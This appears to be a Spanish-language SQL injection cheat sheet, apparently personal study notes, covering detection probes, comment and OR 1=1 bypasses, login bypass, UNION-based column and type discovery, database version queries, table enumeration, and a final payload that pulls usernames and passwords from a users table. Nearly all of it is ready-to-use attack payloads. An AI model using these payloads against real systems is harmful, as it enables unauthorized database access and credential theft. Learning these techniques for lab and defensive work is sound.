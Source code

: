 # ATAQUE: SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

## BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE. \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

## UNION ATTACK

pre-req: numero de columnas y data type de cada columna

### COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1-- \
metodo_2: ' UNION SELECT NULL--

### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

Microsoft >> SELECT @@version 
MySQL >> SELECT @@version 
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance 
PostgreSQL >> SELECT version() 

### LISTAR TABLAS DE LA BASE DE DATOS / [Microsoft/MySQL/PostgreSQL] 

SELECT [columns] FROM information_schema.tables | '+UNION+SELECT+table_name,null+FROM+information_schema.tables-- 
SELECT [columns] FROM information_schema.columns 

SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

### LISTAR TABLAS DE LA BASE DE DATOS / [Oracle] 

SELECT [columns] FROM all_tables 

SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

### MOSTRAR INFORMACION DE OTRAS TABLAS [importante!]

' UNION SELECT username, password FROM users-- | retrieve the username and password from table "users"
